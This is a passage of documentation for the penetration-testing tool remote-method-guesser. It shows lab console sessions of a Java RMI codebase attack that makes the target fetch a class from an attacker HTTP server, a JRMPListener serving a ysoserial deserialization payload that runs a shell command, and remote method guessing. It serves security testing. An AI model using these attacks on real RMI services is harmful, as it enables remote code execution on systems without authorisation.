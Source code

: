 *Activator*:

```console
[qtc@kali ~]$ rmg 172.17.0.2 9010 codebase Example http://172.17.0.1:8000 --signature act
[+] Attempting codebase attack on Activator endpoint...
[+] Using class Example with codebase http://172.17.0.1:8000/ during activate call.
[+] 
[+] 	Caught IllegalArgumentException during codebase attack.
[+] 	Codebase attack was probably successful :)

[qtc@kali www]$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
172.17.0.2 - - [26/Mar/2021 06:23:42] "GET /Example.class HTTP/1.1" 200 -
```


#### JRMPListener

As already demonstrated above, it is sometimes required to provide a malicious *JRMPListener*, which serves deserialization payloads
to incoming *RMI* connections. Writing such a listener from scratch is not necessary, as it is already provided by the
[ysoserial project](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/exploit/JRMPListener.java).
*remote-method-guesser* provides a wrapper around the *ysoserial* implementation, which lets you spawn a *JRMPListener*
by using the usual *rmg* syntax:

```console
[qtc@kali ~]$ rmg 0.0.0.0 4444 listen CommonsCollections6 "touch /dev/shm/test"
[+] Creating ysoserial payload... done.
[+] Creating a JRMPListener on 0.0.0.0:4444.
[+] Handing off to ysoserial...
```


#### Sample Generation

Despite being none of the available actions, *sample generation* is another useful feature of *remote-method-guesser* and can be enabled
during the ``guess`` action. As already mentioned above, *RMI* endpoints may expose methods that sound interesting on their own, without thinking
about *deserialization* or *codebase attacks*. Calling such methods is already possible using *rmg's* ``call`` action, but in some situations
it is more useful to generate *Java code* that can be used to invoke the method.

By using the ``--create-samples`` parameter, you can create sample code for successfully guessed *remote methods* automatically. Using the ``--signature``
and ``--bound-name`` options, it is also possible to generate code only for one already known method. The following command generates the required *Java code*
to invoke the ``execute`` method on the ``plain-server`` bound name:

```console
[qtc@kali ~]$ rmg 172.17.0.2 9010 guess --create-samples --signature "String execute(String dummy)" --bound-name plain-server
[+]
[+] Starting Method Guessing on 1 method signature(s).
[+] Method signature: String execute(String dummy).
[+]
[+] 	MethodGuesser is running:
[+] 		--------------------------------
[+] 		[ plain-server ] HIT! Method with signature String execute(String dummy) exists!
[+] 	done.
[+]
[+] Listing successfully guessed methods:
[+]
[+] 	- plain-server
[+] 		--> String execute(String dummy)
```